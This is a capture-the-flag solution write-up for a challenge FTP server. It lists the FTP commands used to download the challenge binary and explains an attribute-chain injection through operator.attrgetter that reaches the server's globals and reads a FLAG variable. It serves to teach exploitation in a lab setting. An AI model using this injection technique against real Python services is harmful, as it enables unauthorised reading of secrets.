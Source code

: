 # Solution

## Getting the Source File

Command reference: <https://en.wikipedia.org/wiki/List_of_FTP_commands>

```text
LIST
CWD chal
LIST
RETR pwn
```

`RETR flag.txt` does not work, look at the source code for explanation

## Getting the Flag

Based on <https://docs.python.org/3/library/operator.html#operator.attrgetter>

```py
class A:
    def __init__(self, cmd, args):
        f = operator.attrgetter(cmd)(self) 
        f(args)

A("foo.bar", "baz")
```

is equivalent to

```py
A.foo.bar("baz")
```

Thus, to get the flag:

```text
__init__.__globals__.__getitem__ FLAG
```

which is equivalent to

```py
FTPServerThread.__init__.__globals__.__getitem__("FLAG")
```
